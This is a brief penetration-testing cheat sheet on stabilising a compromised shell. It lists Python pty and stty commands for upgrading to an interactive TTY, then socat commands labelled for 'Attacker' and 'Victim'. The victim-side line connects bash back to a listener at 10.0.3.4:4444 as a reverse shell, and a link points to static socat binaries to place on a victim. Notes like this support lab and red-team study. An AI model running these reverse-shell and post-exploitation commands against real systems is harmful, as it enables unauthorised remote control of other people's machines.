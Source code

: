 # Stabilize Shell

### Python

* Upgrading non-interactive shell to interactive shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

```bash
CTRL-Z
```

```bash
stty raw -echo; fg
```

<details>

<summary>Socat</summary>

#### On Attacker:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat is not installed on victim, get it from [https://github.com/andrew-d/static-binaries/tree/master/socat](https://github.com/andrew-d/static-binaries/tree/master/socat)

</details>
